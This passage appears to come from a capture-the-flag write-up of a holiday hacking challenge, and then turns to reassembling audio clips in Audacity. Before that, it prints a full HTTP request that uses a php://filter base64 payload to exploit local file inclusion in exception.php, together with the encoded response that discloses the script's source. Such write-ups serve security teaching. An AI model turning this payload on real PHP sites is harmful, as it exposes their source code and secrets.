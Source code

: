  

Given that I confirmed the crashdumps are in a folder "docs" relative to exception.php, I tried reading the “crashdump” `../exception` to see if I could view the source, but that gives a 500 Internal Server Error.  (Likely it keeps loading itself in an `include()` loop.)  PHP, however, [provides some creative ways to read data, filtering it inline](https://secure.php.net/manual/en/stream.filters.php).  These pseudo-URLs for file opening result in different encodings and can be quite useful for bypassing LFI filters, non-printable characters for extracting binaries, etc.  I chose to use one that encodes a file as base64 to see if I could get the source of `exception.php`:

~~~
POST /exception.php HTTP/1.1
Content-Type: application/json
User-Agent: Dalvik/2.1.0 (Linux; U; Android 7.1; Android SDK built for x86 Build/NPF26K)
Host: ex.northpolewonderland.com
Connection: close
Accept-Encoding: gzip
Content-Length: 109
{"operation":"ReadCrashDump","data":{"crashdump":"php://filter/convert.base64-encode/resource=../exception"}}
HTTP/1.1 200 OK
Server: nginx/1.10.2
Date: Sat, 31 Dec 2016 00:56:57 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 3168
PD9waHAgCgojIEF1ZGlvIGZpbGUgZnJvbSBEaXNjb21ib2J1bGF0b3IgaW4gd2Vicm9vdDog
…
oZHVtcFsnY3Jhc2hkdW1wJ10gLiAnLnBocCcpOwoJfQkKfQoKPz4K
~~~

The base64 encoded output is a great sign.  I decode it to discover, as expected, the contents of `exception.php`, which starts with this helpful hint:

~~~
<?php 
# Audio file from Discombobulator in webroot: discombobulated-audio-6-XyzE3N9YqKNH.mp3
~~~

So, there we have our final piece of the discombobulated audio: `discombobulatedaudio6.mp3`.  This particular LFI was interesting for a few reasons: the use of `chdir()` to change directory instead of prepending the directory name, and the requirement that the file ends in `.php`.  Had they prepended the directory name, a filter could not have been used because the filter must be at the beginning of the string passed to the PHP file open functions (like `require`, `include`, `fopen`).

## Part 5: Discombobulated Audio

### Fixing the Audio

We now have 7 audio files.  Listening to each one, you don’t hear much, but the overall tone suggests to me that the final file has been slowed somewhat.  So I open up Audacity and put all the files into one project.  Then I used the option "Tracks > Align Tracks > Align End to End" to place the tracks into a series, with the resulting audio concatenated like this:
